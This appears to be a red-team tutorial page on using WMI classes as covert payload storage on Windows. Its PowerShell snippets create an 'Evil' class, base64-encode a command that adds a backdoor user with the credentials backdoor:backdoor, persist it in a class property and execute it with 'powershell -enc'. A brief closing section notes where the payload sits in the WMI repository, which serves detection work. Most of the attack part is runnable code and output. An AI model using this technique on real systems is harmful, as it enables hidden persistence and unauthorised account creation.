






# WMI as a Data Storage

## Execution

Creating a new WMI class with a property `EvilProperty` that will later store the payload to be executed:

```csharp
$evilClass = New-Object management.managementclass('root\cimv2',$null,$null)
$evilClass.Name = "Evil"
$evilClass.Properties.Add('EvilProperty','Tis notin good sir')
$evilClass.Put()

Path          : \\.\root\cimv2:Evil
RelativePath  : Evil
Server        : .
NamespacePath : root\cimv2
ClassName     : Evil
IsClass       : True
IsInstance    : False
IsSingleton   : False
```

We can see the `Evil` class properties:

```csharp
([wmiclass] 'Evil').Properties

Name       : EvilProperty
Value      : Tis notin good sir
Type       : String
IsLocal    : True
IsArray    : False
Origin     : Evil
Qualifiers : {CIMTYPE}
```

Checking WMI Explorer shows the new `Evil` class has been created under the `root\cimv2` namepace - note the `EvilProperty` can also be observed:



### Storing Payload

For storing the payload inside the `EvilProperty`, let's create a base64 encoded powershell command that adds a backdoor user with credentials `backdoor:backdoor`:

```csharp
$command = "cmd '/c net user add backdoor backdoor /add'"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)

# $encodedCommand = YwBtAGQAIAAvAGMAIAAnAG4AZQB0ACAAdQBzAGUAcgAgAGIAYQBjAGsAZABvAG8AcgAgAGIAYQBjAGsAZABvAG8AcgAgAC8AYQBkAGQAJwA=
```

Updating `EvilProperty` attribute to store `$encodedCommand`:

```csharp
$evilClass.Properties.Add('EvilProperty', $encodedCommand)
```

Below is the same as above, just in a screenshot:



### Real Execution

```csharp
powershell.exe -enc $evilClass.Properties['EvilProperty'].Value
```

Executing the payload stored in the property of a WMI class's property - note that the backdoor user has been successfully added:



If we commit the `$evilClass` with its `.Put()` method, our payload will get stored permanently in the WMI Class. Note how a new "Evil" class' properties member shows the payload we have commited:



## Observations

Using the WMI Explorer, we can inspect the class' definition which is stored in`%SystemRoot%\System32\wbem\Repository\OBJECTS.DATA` 

The file contains all the classes and other relevant information about those classes. In our case, we can see the `EvilProperty` with our malicious payload inside:



When inspecting the OBJECTS.DATA with a hex editor, it is possible \(although not very practical nor user friendly\) to find the same data - note that the screenshot is referring to the state of the Evil class at the very beginning of its creation as this is when I took the screenshot:



